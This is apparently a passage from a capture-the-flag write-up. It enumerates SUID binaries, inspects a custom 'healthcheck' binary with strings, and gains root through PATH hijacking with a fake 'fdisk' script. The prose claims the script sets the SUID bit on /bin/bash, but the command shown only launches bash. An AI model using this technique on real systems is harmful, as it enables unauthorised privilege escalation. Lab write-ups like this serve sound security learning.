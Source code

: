 ```
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/at
/usr/bin/pumount
/usr/bin/batch
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount
``` 
The program just seems to be running a bunch of standard linux programs like `fdisk`.
```
[medical@localhost ~]$ strings /usr/bin/healthcheck 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```
The program is vulnerable because we control the `PATH` and the program doesn’t use the absolute path to execute the programs so we can execute anything we want as root. To get root I’ll just create a script that sets the SUID bit on `/bin/bash`, name it `fdisk` and call `/usr/bin/healthcheck` after setting the path to my current directory so it doesn’t execute the real `fdisk` program but my own script.
```
[medical@localhost ~]$ echo "/bin/bash" > fdisk
[medical@localhost ~]$ chmod +x fdisk 
[medical@localhost ~]$ export PATH=/home/medical:$PATH
[medical@localhost ~]$ echo $PATH
/home/medical:/bin:/usr/bin:/usr/local/bin:/usr/bin/X11:/usr/games:/usr/lib/qt4/bin:/home/medical/bin
[medical@localhost ~]$ /usr/bin/healthcheck 

System Health Check

```